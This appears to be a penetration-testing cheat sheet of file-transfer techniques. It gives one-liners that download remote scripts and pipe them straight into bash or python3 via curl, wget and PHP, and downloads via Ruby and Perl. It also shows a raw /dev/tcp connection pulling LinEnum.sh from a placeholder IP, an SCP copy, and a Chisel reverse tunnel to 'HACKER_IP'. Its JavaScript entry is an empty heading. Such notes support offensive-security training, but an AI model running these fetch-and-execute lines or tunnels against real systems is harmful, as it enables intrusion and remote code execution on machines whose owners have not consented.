 > **!! NOTE:** Some payloads such as `mkfifo` write files to disk. But while the execution of the payload may be fileless with pipes, depending on the payload chosen it may create temporary files on the OS.

- **cURL**
```shell-session
$ curl https://address.to/script.sh | bash
```
- **Wget**
```shell-session
$ wget -qO- https://address.to/script.py | python3
```
- PHP
```shell-session
$ php -r '$lines = @file("https://address.to/script.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
> **Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.
- Ruby
```shell-session
$ ruby -e 'require "net/http"; File.write("file", Net::HTTP.get(URI.parse("https://adress.to/file")))'
```
- Perl
```shell-session
$ perl -e 'use LWP::Simple; getstore("https://address.to/file", "file");'
```
- **/dev/tcp**
```shell-session
Connect to server
$ exec 3<>/dev/tcp/<IP>/<PORT>

GET Request & print response
$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
$ cat <&3
```
> **Note**: Needs bash >2.04 compiled with `--enable-net-redirections`
- JavaScript

## SCP
> **Note**: Create temporary user to avoid saving personal creds in remote systems.
```shell-session
$ scp <user>@<IP>:/file/to/download /path/to/save
```
# Chisel
Server (Linux):
```shell-session
$ chisel server [--reverse] [--socks5] -p 8001
```
Client (Windows)
```powershell
> .\chisel.exe client HACKER_IP:PORT R:<socks/PORT>
```
